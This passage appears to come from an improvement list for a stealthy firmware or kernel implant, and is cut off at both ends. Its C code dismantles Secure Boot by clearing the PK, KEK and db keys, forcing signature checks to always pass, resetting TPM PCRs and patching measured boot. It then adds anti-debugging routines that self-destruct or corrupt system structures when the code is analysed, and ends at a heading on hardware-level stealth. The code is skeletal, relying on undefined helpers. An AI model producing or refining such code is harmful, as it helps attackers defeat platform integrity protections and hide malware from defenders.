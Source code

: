 **Solution**: Firmware-level Secure Boot dismantling:
```c
void DisableSecureBoot() {
    // 1. Clear PK/KEK/db variables
    ClearUefiVariable(L"PK");
    ClearUefiVariable(L"KEK");
    ClearUefiVariable(L"db");
    
    // 2. Patch signature verification
    EFI_SECURITY_PROTOCOL* sec;
    LocateProtocol(&sec);
    sec->FileAuthentication = AlwaysAllow;
    
    // 3. Disable TPM measurements
    Tpm2SubmitCommand(TPM2_CC_StartupClear);
    Tpm2SubmitCommand(TPM2_CC_PCR_Reset);
    
    // 4. Bypass Measured Boot
    PatchDxeCoreVerification();
}
```

---

### **6. Anti-Debug & Anti-RE Protections**
**Issue**: Lack of protection against reverse engineering.

**Solution**: Implement SMM-based runtime integrity checks:
```c
void RuntimeIntegrityCheck() {
    // 1. Validate critical memory regions
    if (ValidateRegion(DRIVER_BASE, DRIVER_SIZE) != HASH_OK) {
        TriggerSelfDestruct();
    }
    
    // 2. Detect kernel debugger presence
    if (CheckKdDebuggerEnabled()) {
        CorruptCriticalStructures();
    }
    
    // 3. Anti-hooking mechanism
    ValidateFunctionHooks();
    
    // 4. Time-based validation
    if (DetectTimingAnomalies()) {
        InitiateCountermeasures();
    }
}
```

---

### **7. Hardware-Assisted Stealth**
**Issue**: Current implementation lacks hardware-level concealment.
